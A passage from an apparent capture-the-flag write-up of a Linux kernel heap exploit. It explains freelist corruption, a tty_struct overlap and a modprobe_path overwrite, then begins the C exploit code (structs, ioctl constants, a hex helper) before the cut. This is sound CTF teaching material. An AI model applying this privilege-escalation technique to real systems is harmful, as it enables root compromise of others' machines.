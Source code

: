 After corrupting the freelist we allocate a bunch more nuts until we get our forged slab which overlaps with the `tty_struct` of the pseudoterminal. Having an overlapping slab, we overwrite the `tty_operations` pointer to point to a forged struct.

Having done this we can simply use the `icotl` syscall and overwrite `modeprobe_path` based on the gadget we have overwritten the `ioctl` handler with.

Overwriting `modeprobe_path` this way does not make the kernel crash. Why ? Idk but probably because we corrupted the freelist with a pointer that is actually on the heap and not somewhere else like the address of `modeprobe_path`.


## Exploit

If you want to try yourself refer to my [repo](https://github.com/h0ps-ctf/Ctf-Challenges) where I uploaded the challenges files, my exploit and some helper scripts.

{% highlight c %}
#include <assert.h>
#include <errno.h>
#include <fcntl.h>
#include <poll.h>
#include <sched.h>
#include <signal.h>
#include <stdint.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/ioctl.h>
#include <sys/mman.h>
#include <sys/prctl.h>
#include <sys/stat.h>
#include <sys/syscall.h>
#include <sys/types.h>
#include <sys/uio.h>
#include <unistd.h>

#define CREATE 0x13371
#define DELETE 0x13372
#define SHOW   0x13373
#define APPEND 0x13374

typedef struct req {
    int idx;
    int size;
    char* contents;
    int content_length;
    char* show_buffer;
} req;

typedef struct nut {
    uint64_t size;
    char* contents;
} nut;

static void print_hex8(char* buf, size_t len)
{
    uint64_t* tmp = (uint64_t*)buf;

    for (int i = 0; i < (len / 8); i++) {
        printf("%p ", tmp[i]);
        if ((i + 1) % 2 == 0) {
            printf("\n");
        }
    }

    printf("\n");
}